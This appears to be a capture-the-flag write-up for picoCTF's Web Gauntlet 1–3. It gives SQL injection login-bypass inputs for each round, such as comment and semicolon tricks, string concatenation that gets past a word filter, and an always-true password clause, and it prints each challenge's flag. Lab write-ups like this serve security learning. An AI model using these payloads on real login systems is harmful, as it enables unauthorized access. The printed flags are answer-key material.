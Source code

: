 # Web Gauntlet 1

Open the links [login](http://jupiter.challenges.picoctf.org:54319/), [filter](http://jupiter.challenges.picoctf.org:54319/filter.php).

## Round 1

Entering any username and password shows the SQL query:
```sql
SELECT * FROM users WHERE username='admin' AND password='admin'
```
We can comment out the rest of the SQL using `--`.
```
Username: admin'--
Password: anything
```
  
## Round 2

The `--` is now filtered, but `;` (semicolon) is allowed. Terminate the current query with a semicolon.
```
Username: admin';
Password: anything
```
  
## Round 3

Same as Round 2, `;` is still not filtered.
```
Username: admin';
Password: anything
```
  
## Round 4

The string `admin` is blocked. Bypass blacklist by splitting the string and concatenating it using SQL string concatenation with `||`.
```
Username: ad'||'min';
Password: anything
```
  
## Round 5

Same constraints as Round 4. Continue using string concatenation.
```
Username: ad'||'min';
Password: anything
```

- **Flag:** `picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}`
  
---

# Web Gauntlet 2

Open the links [login](http://mercury.picoctf.net:65261/), [filter]( http://mercury.picoctf.net:65261/filter.php).

Can't use `admin` but concatenation still works, so use:
```
Username: ad'||'min
```
Now, commenting or ending the query doesn't work. So we must provide the correct password.
If the SQL evaluates something like `'a' != 'b'` it's true.
So we try:
```
Username: ad'||'min
Password: a' is not 'b
```

- **Flag:** `picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`
  
---

# Web Gauntlet 3

Open the links [login](http://mercury.picoctf.net:63504/), [filter](http://mercury.picoctf.net:63504/filter.php).

Since our solution from the previous challenge didn't exceed 25 characters we can simply use the same credentials.
```
Username: ad'||'min
Password: a' is not 'b
```

- **Flag:** `picoCTF{k3ep_1t_sh0rt_eb90a623e2c581bcd3127d9d60a4dead}`

